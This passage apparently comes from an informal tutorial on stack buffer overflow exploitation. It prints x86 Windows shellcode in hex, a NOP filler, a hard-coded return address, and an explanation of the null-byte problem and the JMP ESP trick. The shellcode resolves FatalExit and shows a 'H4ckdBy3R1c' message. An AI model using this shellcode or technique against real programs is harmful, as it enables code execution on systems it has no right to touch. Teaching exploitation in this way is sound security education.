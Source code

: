 So we would make a string from the following HEX.

First payload (113 bytes):

`\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x52\x31\x63\x01\x68\x64\x42\x79\x33\x68\x48\x34\x63\x6b\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff\xd7`

Then filler (391 bytes):

`\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90`

Then our return address `0019FCB8` in little endian hex (4 bytes):

`\xB8\xFC\x19\x00`



If we converted all that hex into a massive ASCII it would work ON SOME COMPUTERS.

Generally not windows.

## The Problem

That last stupid byte has \x00. That hex terminates the string early. AGHHHH.

It is a null terminator. Our stupid memory address that we have been working so hard to get to has 00 in it and we cannot represent that in ASCII because in ASCII 00 means end the string. GAHHHHH.

### JMP ESP Trick

Instead of returning into our string. We are gonna do a trick.

We are going to overflow the buffer with junk just enough to overflow the return address.

Then, we are going to overflow it more with our malicious virus code.

Why? Because ESP currently points to the location right after our string!

Say What?
